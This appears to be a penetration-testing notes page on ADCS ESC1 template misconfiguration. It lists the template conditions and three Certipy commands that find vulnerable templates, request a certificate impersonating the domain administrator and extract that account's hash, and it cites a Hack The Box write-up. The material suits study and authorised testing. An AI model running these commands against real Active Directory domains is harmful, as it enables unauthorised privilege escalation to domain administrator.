 # ADCS Template Misconfigurations

## Intro
Templates, by default, are not vulnerable but made vulnerable by human-made misconfigurations. When writing this blog, these misconfigurations are divided into 11 parts (ESC1-ESC11).     
By exploiting this type of vulnerable Template, a domain user can escalate his privileges to that of a domain administrator in a Windows Active Directory Environment. 

## ESC1
### Overview
- The template must have **Enrollment Rights** set, so that the attacker can request a new one from the Certificate Authority.
- No manager approval is required
- **Enrollee Supplies Subject** is set to **True** so that we can supply *SAN*.
- **Extended Key Usage:** Client Authentication means the generated certificate based on this Template can authenticate to the domain computers. 


### Tools needed
- [Certipy](https://github.com/ly4k/Certipy)


### Exploitation
```sh
# Find vulnerable templates
certipy find -u <username> -p <password> -target <ip> -text -stdout -vulnerable

# Request certificate
certipy req -u <username> -p <password> -target <ip> -upn administrator@domain.local -ca <cert_auth> -template <template_nmae>

# Get hash from the cerificate
certipy auth -pfx <certificate>
```

### References
- [https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/](https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/)
- [https://0xdf.gitlab.io/2023/06/17/htb-escape.html#abuse-template](https://0xdf.gitlab.io/2023/06/17/htb-escape.html#abuse-template)